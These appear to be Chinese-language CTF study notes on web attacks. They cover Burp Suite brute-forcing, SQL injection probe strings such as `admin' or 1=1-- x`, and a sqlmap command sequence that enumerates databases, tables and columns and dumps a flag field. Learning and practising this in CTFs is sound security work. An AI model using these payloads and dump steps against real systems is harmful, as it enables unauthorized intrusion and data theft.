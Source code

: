 ## 查看源代码
- 在浏览器地址栏前添加 `view-source:`

## 爆破可以添加纯数字
- 可以在 burpsuite 中修改字典类型

## 爆破空数据包
使用 payloads

## sql 注入
1. 发现漏洞：尝试在请求参数中添加 
- `admin' or 1=1-- x`
- `admin' or '1'=1`
- `admin' and '1'='1`
- `admin' and 1=1-- x`

2. 使用工具 sqlmap
使用 sqlmap，将请求保存成 txt 文件，然后执行
```sh
python sqlmap.py -r xxx.txt --current-db
# --flush-session 清除所有测试缓存
# --fresh-queries 清除本次测试缓存
# --tech=BES 指定注入类型
# -r xxx.txt 读取请求文件
```
读取请求，查看漏洞类型
```sh
python .\tools\sqlmap\sqlmap.py -r .\tests\sql-inject2.txt
```

获取所有数据库名称
```sh
python .\tools\sqlmap\sqlmap.py -r .\tests\sql-inject2.txt --tech=B --dbs
```

获取当前数据库名称
```sh
 python .\tools\sqlmap\sqlmap.py -r .\tests\sql-inject2.txt --tech=B --current-db
```

通过 `-D 数据库名称 --tables` 获取表名称
```sh
python .\tools\sqlmap\sqlmap.py -r .\tests\sql-inject2.txt --tech=B -D note --tables
```

通过 `-T 表名称 --columns` 获取表中的字段名
```sh
python .\tools\sqlmap\sqlmap.py -r .\tests\sql-inject2.txt --tech=B -D note -T fl4g --columns   
```

通过 `-C 字段名称 --dump` 获取表中某一字段的值
```sh
python .\tools\sqlmap\sqlmap.py -r .\tests\sql-inject2.txt --tech=B -D note -T fl4g -C fllllag --dump --fresh-queries
```
